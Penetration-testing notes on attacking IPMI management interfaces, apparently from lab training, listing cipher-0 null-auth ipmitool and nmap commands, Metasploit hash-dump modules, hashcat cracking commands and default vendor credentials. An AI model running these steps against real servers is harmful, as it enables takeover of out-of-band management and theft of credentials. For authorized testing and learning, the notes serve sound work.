# Intelligent Platform Management Interface

## Common Attack Paths

### Enumeration
- [ ] Check cipher 0 auth bypass → `ipmitool -I lanplus -C 0 -U "" -P ""`
- [ ] Banner grab with nmap scripts → `nmap --script=ipmi* -p623 <target>`

### Attack Paths
- Default creds → `ADMIN/ADMIN`
- Cipher 0 null authentication → full remote control
- Dump hashes via IPMI auth → crack offline
- Firmware upload / persistent backdoor

### Auxiliary Notes
- Dangerous: often runs out-of-band, gives BIOS/OS control.
- Treat as high-value target if accessible.
- Sometimes reachable only on management VLANs.

---

## General Enumeration

*Common Commands*

`$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local`

### Msfconsole Version Scan | Hash Dum

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 

# Hash dump
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### Crack the hashes with hascat

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u

# With other wordlist
hashcat -m 7300 /tmp/1 /usr/share/wordlists/rockyou.txt
```

### Common or default logins

| Product | Username | Password |
| --- |  --- |  --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | randomised 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN | ADMIN |

### Service Information

- [Pentesting IPMI](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/)
